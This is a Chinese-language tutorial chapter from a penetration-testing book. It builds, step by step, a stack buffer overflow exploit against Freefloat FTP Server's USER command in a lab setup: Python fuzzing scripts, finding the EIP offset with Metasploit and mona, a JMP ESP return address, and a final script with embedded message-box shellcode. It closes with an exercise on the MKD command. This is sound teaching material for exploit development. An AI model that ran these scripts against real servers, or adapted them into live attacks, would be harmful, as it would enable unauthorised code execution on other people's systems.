










# 第九章：现实世界的场景-第 1 部分

现在，我们将通过在真实目标上练习 fuzzing、控制指令指针和注入 shellcode 来总结本书。我将浏览[exploit-db.com](https://exploit-db.com/)，并从中选择真实目标。

# Freefloat FTP Server

让我们从这里下载 Freefloat FTP Server v1.0，开始吧：

[`www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip`](https://www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip)。此外，您还可以在[`www.exploit-db.com/exploits/40711/`](https://www.exploit-db.com/exploits/40711/)上看到 Windows XP 上的利用程序。

Freefloat FTP Server 有许多易受攻击的参数，可以用来练习，我们将在这里选择其中一个进行全面练习：


现在，让我们在我们的 Windows 机器上从[`www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip`](https://www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip)下载它并解压缩。现在，打开它的目录，然后打开 Win32，并启动 FTP 服务器。它将显示在右上角的任务栏中。打开它以查看配置：



易受攻击的服务器正在端口`21`上运行。让我们从攻击机上使用`nc`确认一下。

首先，我们受害机的 IP 地址是`192.168.129.128`：



然后从攻击机上执行以下命令：

```
$ nc 192.168.129.128 21 
```

前面命令的输出可以在以下截图中看到：


让我们尝试匿名访问：

```
$ USER anonymous
$ PASS anonymous
```

前面命令的输出可以在以下截图中看到：



我们成功了！如果我们专注于`USER`参数呢？

# Fuzzing

由于手动使用`nc`命令的方式不高效，让我们使用 Python 语言构建一个脚本来执行：

```
#!/usr/bin/python
import socket
import sys

junk = 

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

现在，让我们尝试使用`USER`参数进行 fuzzing 阶段。让我们从`junk`值为`50`开始：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*50

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

然后从我们的受害机上，让我们将 Freefloat FTP Server 附加到 Immunity Debugger 中，并运行程序一次：


让我们注册一下内容：


然后，确保程序处于运行状态：



现在，让我们运行我们的利用程序，然后看看 Immunity Debugger：

```
$ ./exploit.py
```

前面命令的输出可以在以下截图中看到：


什么都没发生！让我们把垃圾值增加到`200`：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*200

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

让我们重新运行这个利用程序，并观察 Immunity Debugger：

```
$ ./exploit.py
```

前面命令的输出可以在以下截图中看到：



再次什么都没发生；让我们增加到`500`：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*500

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

然后，运行利用程序：

```
$ ./exploit.py
```

前面命令的输出可以在以下截图中看到：



程序崩溃了！让我们也看看寄存器：



指令指针被我们的垃圾填满了：


栈也像预期的那样填满了垃圾值，这将带我们进入下一个阶段。

# 控制指令指针

在这个阶段，我们将通过计算 EIP 寄存器的确切偏移量来控制指令指针。

让我们像之前一样使用 Metasploit Framework 创建模式：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_create.rb -l 500
```

前面命令的输出可以在以下截图中看到：



这是我们的模式，所以利用程序应该是这样的：

```
#!/usr/bin/python
import socket
import sys

junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq'

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

关闭 Immunity Debugger，重新运行 Freefloat FTP Server，并将其附加到 Immunity Debugger。然后，运行程序：

```
$ ./exploit.py
```

前面命令的输出可以在以下截图中看到：



EIP 中的当前模式是`37684136`：


我们已经在 EIP 中找到了模式；现在，让我们获取它的确切偏移量：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_offset.rb -q 37684136 -l 500
```

前面命令的输出可以在以下截图中看到：


它在偏移量`230`；让我们确认一下：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*230
eip = 'B'*4
injection = junk+eip

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+injection+'\r\n')
```

关闭 Immunity Debugger，然后再次启动它并启动 Freefloat FTP 服务器，将其附加到 Immunity Debugger 中，然后运行程序。然后执行我们的利用：

```
$ ./exploit.py
```

上述命令的输出可以在以下截图中看到：


另外，让我们看看寄存器：


`EIP`现在包含`42424242`；所以我们现在控制了`EIP`。

让我们继续下一阶段，找到一个地方放置我们的 shellcode 并注入它。

# 注入 shellcode

让我们看看分析 Freefloat FTP 服务器内部模式的另一种方法：

```
#!/usr/bin/python
import socket
import sys

junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq'

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

让我们重新运行 Freefloat FTP 服务器，将其附加到 Immunity Debugger 中，然后点击运行程序图标。然后运行利用：

```
$ ./exploit.py
```

程序将再次崩溃；然后，从命令栏输入`!mona findmsp`：


根据 Rapid7 博客[`blog.rapid7.com/2011/10/11/monasploit/`](https://blog.rapid7.com/2011/10/11/monasploit/)，`findmsp`命令执行以下操作：

+   在进程内存中（正常或 unicode 扩展）寻找循环模式的前 8 个字节的任何地方。

+   查看所有寄存器，并列出指向模式的部分或被覆盖的寄存器。如果寄存器指向模式，则它将显示偏移量和该偏移量之后内存中模式的长度。

+   在堆栈上寻找指向模式部分的指针（显示偏移量和长度）。

+   在堆栈上寻找模式的痕迹（显示偏移量和长度）。

+   查询 SEH 链，并确定它是否被循环模式覆盖。

之后，按下*Enter*：



这个分析告诉我们确切的偏移量是`230`。它还告诉我们，最好放置 shellcode 的地方是在堆栈内部，并且将使用 ESP 寄存器，因为没有一个模式从堆栈中脱离出来。所以，让我们继续之前的步骤。

我们的利用应该是这样的：


现在，让我们找到`JMP ESP`的地址：


然后，搜索`JMP ESP`：


现在我们需要选择任何地址来执行跳转到 ESP。我会选择`75BE0690`。

对于 shellcode，让我们选择一些小的东西；例如，让我们尝试这个 shellcode 在[`www.exploit-db.com/exploits/40245/`](https://www.exploit-db.com/exploits/40245/)，它在受害者的机器上生成一个消息框：

```
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x31\xdb\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x89\xd6\x89\xcf\x31\xdb\x53\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x10\x31\xc9\x68\x6c\x6c\x42\x42\x88\x4c\x24\x02\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x6f\x78\x41\x42\x88\x4c\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x54\x50\xff\xd6\x83\xc4\x0c\x31\xd2\x31\xc9\x52\x68\x73\x67\x21\x21\x68\x6c\x65\x20\x6d\x68\x53\x61\x6d\x70\x8d\x14\x24\x51\x68\x68\x65\x72\x65\x68\x68\x69\x20\x54\x8d\x0c\x24\x31\xdb\x43\x53\x52\x51\x31\xdb\x53\xff\xd0\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x8d\x0c\x24\x51\x57\xff\xd6\x31\xc9\x51\xff\xd0"
```

因此，我们的最终 shellcode 应该是这样的：


让我们创建我们的最终利用：

```
#!/usr/bin/python
import socket
import sys

shellcode = "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x31\xdb\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x89\xd6\x89\xcf\x31\xdb\x53\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x10\x31\xc9\x68\x6c\x6c\x42\x42\x88\x4c\x24\x02\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x6f\x78\x41\x42\x88\x4c\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x54\x50\xff\xd6\x83\xc4\x0c\x31\xd2\x31\xc9\x52\x68\x73\x67\x21\x21\x68\x6c\x65\x20\x6d\x68\x53\x61\x6d\x70\x8d\x14\x24\x51\x68\x68\x65\x72\x65\x68\x68\x69\x20\x54\x8d\x0c\x24\x31\xdb\x43\x53\x52\x51\x31\xdb\x53\xff\xd0\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x8d\x0c\x24\x51\x57\xff\xd6\x31\xc9\x51\xff\xd0";

junk = 'A'*230
eip = '\x90\x06\xbe\x75'
nops = '\x90'*10
injection = junk+eip+nops+shellcode

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+injection+'\r\n')
```

现在我们已经准备好了；让我们重新运行 Freefloat FTP 服务器，然后运行我们的利用：

```
$ ./exploit.py
```

上述命令的输出可以在以下截图中看到：


我们的利用成功了！

# 一个例子

我希望你尝试这个例子，但使用一个不同的参数，例如`MKD`参数，我会给你一段代码来开始：

```
#!/usr/bin/python
import socket
import sys

junk = ' '

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
s.send('MKD' + junk +'\r\n')
s.recv(1024)
s.send('QUIT\r\n')
s.close()
```

就像这个场景一样，所以尝试更有创意一些。

# 总结

在这一章中，我们从模糊化开始了一个真实且完整的场景。然后我们看了如何控制 EIP，然后注入和执行 shellcode。

在下一章中，我们将使用一个不同的方法来进行真实世界的场景，即拦截和模糊化 HTTP 头部内的参数。
